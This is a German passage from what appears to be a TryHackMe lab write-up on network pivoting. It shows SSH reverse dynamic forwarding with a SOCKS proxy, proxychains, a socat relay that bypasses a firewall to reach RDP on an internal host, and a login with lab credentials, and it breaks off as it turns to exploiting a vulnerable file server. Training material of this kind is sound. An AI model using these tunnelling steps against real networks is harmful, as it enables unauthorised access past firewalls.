


### Dynamic Port Forwarding and SOCKS

Während es ausreicht, einzelne Ports für bestimmte Aufgaben weiterzuleiten, kann es aber auch nötig sein, ganze viele Ports oder ganz viele Ports auf ganz vielen Maschinen durch eine Pivot Maschine zu scannen. In diesen Fällen bietet sich eine Dynamische Port Weiterleitung an die uns erlaubt mit einem SOCKS Proxy mehrere Verbindungen zu unterschiedlichen IP/Ports herzustellen.

Da wir uns nicht darauf verlassen können, dass es einen SSH Server auf der Windows Maschine gibt die wir als Pivot benutzen, nutzen wir den vorhandenen SSH Client um eine umgekehrte dynamische Portweiterleitung einzurichten. 

>c:\\>ssh tunneluser@1.1.1.1 -R 9050 -N

In diesem Fall startet der SSH Server einen Socks Proxy auf Port 9050 und leitet jede Verbindung durch den SSH Tunnel wo sie am Ende beim vom SSH Client entgegen genommen werden.

Der wohl interessasnteste Part ist, dass wir ganz einfach jedes Tool durch den SOCKS Proxy nutzen können mithilfe von Proxychains. Um das zu tun, müssen wir sicherstellen, dass Proxychains richtig konfiguriert ist um jede Verbindung zu dem gleichen Port zu ermöglichen die von SSH des Socks proxy Servers genutzt werden. Wenn wir uns die */etc/proxychains4.conf* Datei auf unserem System anschauen, sehen wir die ProxyList und den Port der für den SOCKS Proxy genutzt wird.

- [ProxyList] socks4  127.0.0.1 9050

Hier ist jetzt der Standard Port 9050 angegeben, aber es würde auch im Prinzip jeder andere Port gehen, wenn er dem gleichen Port entspricht, mit dem wir den SSH Tunnel aufgebaut haben. 

Wenn wir jetzt irgendeinen Befehl ausführen möchten, dann können wir dies mithilfe von ProxyChains machen. 

>proxychains curl http://pxeboot.za.tryhackme.com

**Achtung: Manche Anwendungen könnten bei der Nutzung von SOCKS nicht richtig funktionieren wie bspw. Nmap**

**Anwendungsbeispiel**

Wir erstellen uns einen Tunneluser:

```bash
useradd tunneluser -m -d /home/tunneluser -s /bin/true
passwd tunneluser
```

Wir loggen uns über SSH auf THMJMP2 ein:

>ssh henry.bird@thmjmp2.za.tryhackme.com

Wir werden erstmal versuchen, uns per RDP auf THMIIS einzuloggen. Wenn wir das von unserer Kali Maschine versuchen, werden wir merken, dass der Port 3389 von der Firewall blockiert wird. Der Port ist zwar offen, aber wird gefiltert wie ein NMAP zeigt.

*3389/tcp.........filtered........ms-wbt-server*

Auf der THMJMP2 befindet sich socat, womit wir den Port 3389 zu uns weiterleiten können.
Wir realisieren dies mit folgendem Befehl:

>C:\tools\socat\>socat TCP4-LISTEN:13389,fork TCP4:THMIIS.za.tryhackme.com:3389

Wir können als Listener auch einen anderen Port angeben. In einem typischen Szenario müssten wir auch eine Firewall Rule hinzufügen, aber in diesem Fall ist diese der Einfach wegen ausgeschaltet. 

Wenn den Listener per Socat läuft, können wir nun RDP auf unserer Maschine starten:

>user@AttackBox$ xfreerdp /v:THMJMP2.za.tryhackme.com:13389 /u:t1_thomas.moore /p:MyPazzw3rd2020

Wir können nun von unserer Maschine aus über einen SSH Tunnel auf THMIIS per RDP zugreifen.

### Tunneling Complex Exploits

Jetzt wird es etwas schwieriger. Wir befassen uns jetzt mit dem Domain Controller.

Auf dem DC läuft eine unsichere Version von Rejetto HFS (Webfile Server).

